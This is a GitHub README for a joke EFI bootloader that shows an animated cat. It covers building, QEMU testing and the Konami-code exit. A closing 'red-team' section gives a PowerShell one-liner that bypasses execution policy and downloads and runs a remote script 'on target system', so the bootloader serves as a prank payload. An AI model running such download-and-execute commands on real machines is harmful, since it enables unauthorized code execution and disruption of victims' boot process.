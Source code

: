 # goomsë-cat

code is based on https://github.com/puckipedia/efi-example.

have you ever wanted a moving goomsë cat as your bootloader? of course!

now you can.

![image](https://raw.githubusercontent.com/astr0n8t/goomse-cat/master/resources/gooseload.png)

to exit the bootloader, enter the konami code.

## installing

`make` will generate the file `gooseload.efi`.
Make that your default bootloader, and the wonders of goomsë cat will appear the next time you boot up.

Alternatively, you can also just try it in a virtual machine (qemu) by running `make go` to open up qemu.

If you do go the virtual machine route, you will need the proper firmware - Open Virtual Machine Firmware (OVMF).

Check out http://www.tianocore.org/ovmf/ for more info and (https://sourceforge.net/projects/edk2/files/OVMF/ or https://github.com/BlankOn/ovmf-blobs) to download.

## Utilizing in red-team environment

simple use
```
powershell -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<ip>/api/goose')"
```
Run on target system
